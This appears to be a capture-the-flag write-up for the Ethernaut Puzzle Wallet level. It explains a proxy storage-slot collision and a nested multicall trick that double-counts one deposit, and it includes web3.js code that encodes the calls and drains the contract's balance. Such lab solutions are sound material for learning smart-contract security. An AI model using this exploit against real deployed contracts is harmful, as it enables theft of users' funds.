 ## Description
In PuzzleProxy through proposeNewAdmin passing the address, then through the proxy call addToWhitelist, and since PuzzleWallet is called through deoegatecall then owner == pendingAdmin

Next change slot 1 - maxBalance. To do this, we need to reset the contract balance to 0.

To do this, we need to call the execute function. We need to bypass depositCalled for this multicall[deposit, multicall[deposit]]

It was interesting to do via web3js

Translated with DeepL.com (free version)

```
const depositAbi = {
"constant": false,
"inputs": [],
"name": "deposit",
"outputs": [],
"payable": true,
"stateMutability": "payable",
"type": "function"
};
const depositData = web3.eth.abi.encodeFunctionCall(depositAbi, []);
const multicallAbi = {
"constant": false,
"inputs": [
{
"name": "data",
"type": "bytes[]"
}
],
"name": "multicall",
"outputs": [],
"payable": true,
"stateMutability": "payable",
"type": "function"
};
const innerMulticallData = web3.eth.abi.encodeFunctionCall(multicallAbi, [[depositData]]);

const contract2 = new web3.eth.Contract(contract.abi, contract.address);

await contract2.methods.multicall([depositData, innerMulticallData]).send({
from: player,
value: web3.utils.toWei('0.001', 'ether')
});

await contract.execute(player,2000000000000000,"0x")

await web3.utils.toBN(player).toString();
```